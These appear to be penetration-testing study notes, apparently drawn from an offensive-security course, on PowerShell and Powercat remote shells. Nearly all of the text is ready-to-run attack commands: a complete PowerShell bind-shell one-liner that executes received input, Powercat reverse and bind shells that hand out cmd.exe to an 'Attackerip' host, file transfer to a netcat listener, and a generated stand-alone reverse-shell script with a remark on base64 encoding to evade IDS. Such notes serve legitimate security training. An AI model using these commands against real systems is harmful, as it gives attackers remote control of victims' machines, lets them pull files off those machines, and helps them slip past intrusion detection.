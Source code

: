 ***

**POWERSHELL BIND SHELLS**

As we know on victim, we need to start a listner: `powershell -c "$listener = New-Object System.Net.Sockets.TcpListener( '0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $clie nt.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $byt es.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString ($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$str eam.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Sto p()"`

On attacker side, we can connect to it using netcat: `$ nc -nv 10.11.0.22 443`

***

**POWERCAT**

> Powercat96 is essentially the PowerShell version of Netcat written by besimorhino.97 It is a script we can download to a Windows host to leverage the strengths of PowerShell and simplifies the creation of bind/reverse shells.

Load POWERCAT by `. .\Powercat.ps1`

***

**POWERCAT FILE TRANSFER**

First start a netcat on a device you want to reciever the file

`sudo nc -lnvp 443 > Recieving_file.txt`

On sender, Invoke Powercat. `powercat -c RecieverIP -p 443 -i C:\Users\Offsec\file-to_send.txt`

***

**POWERCAT REVERSE SHELLS** On Attacker side setup a netct listner `sudo nc -lnvp 443`

On victim side: `powercat -c Attackerip -p <listning port> -e cmd.exe`

***

**POWERCAT BIND SHELLS**

On victim side we will start a listner: `Powercat -l -p 443 -e cmd.exe` On attacker side we will make a netcat connection `nc -nv <victim ip> <listningport>`

***

**POWERCAT STAND ALONE PAYLOAD**

> Powercat can also generate stand-alone payloads.99 In the context of powercat, a payload is a set of powershell instructions as well as the portion of the powercat script itself that only includes the features requested by the user. Let’s experiment with payloads in this next example.

On attacker side, start a listner : `sudo nc -lnvp 443`

On victim side: `powercat -c Attackerip -p 443 -e cmd.exe -g > reverseshell.ps1` After that run the file : `./reverseshell.ps1`

> Base 64 encoded to bypass IDS
